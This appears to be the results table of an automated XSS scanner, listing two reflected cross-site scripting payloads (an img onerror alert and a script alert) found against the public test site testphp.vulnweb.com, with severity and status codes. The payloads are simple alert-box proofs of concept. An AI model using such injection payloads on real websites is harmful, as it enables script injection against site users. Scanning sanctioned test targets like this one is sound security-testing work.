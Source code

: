| Severity | Payload | Vulnerability | Form Method | Page Url | Status Code |
| --- | --- | --- | --- | --- | --- |
| Low | ><img src=x onerror=alert('Reflected XSS')> | Reflected XSS | post | http://testphp.vulnweb.com/ | 200 |
| High | <script>alert('Reflected XSS')</script> | Reflected XSS | post | http://testphp.vulnweb.com/ | 200 |

